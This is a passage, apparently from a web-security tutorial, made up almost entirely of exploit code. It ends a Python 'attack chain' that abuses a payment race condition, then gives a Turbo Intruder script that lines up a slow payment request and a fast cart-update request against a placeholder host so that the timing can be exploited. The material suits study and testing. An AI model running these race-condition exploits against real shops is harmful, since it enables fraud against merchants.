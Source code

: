          # Step 3: Exploit payment race condition
         print("Exploiting payment race condition...")
         order = exploit_payment_race(session, "10.00")
         print(f"Order status: {order.status_code}")
         print(f"Order details: {order.text[:200]}")
         
         print("Attack chain completed")
     
     # Run the attack
     execute_attack_chain()
     ```

  2. **Using delays to align race windows**:
     - Analyze the timing of request processing for different endpoints
     - Identify endpoints with significant processing time differences
     - Use client-side delays to align race windows
     - Implement precise timing control in exploitation scripts
     - Example Turbo Intruder script with timing control:
     ```python
     def queueRequests(target, wordlists):
         engine = RequestEngine(
             endpoint=target.endpoint,
             concurrentConnections=10,
             requestsPerConnection=1,
             pipeline=False
         )
         
         # Request that takes longer to process
         slow_req = '''POST /payment/process HTTP/2
     Host: vulnerable-website.com
     Content-Type: application/json
     Cookie: session=valid_session
     
     {"amount":"10.00","method":"credit_card","card":"4111111111111111","exp":"12/25","cvv":"123"}'''
         
         # Request that processes quickly
         fast_req = '''POST /cart/update HTTP/2
     Host: vulnerable-website.com
     Content-Type: application/json
     Cookie: session=valid_session
     
     {"items":[{"id":"expensive-item","quantity":10}]}'''
         
         # Function to send the slow request
         def send_slow():
             engine.queue(slow_req)
         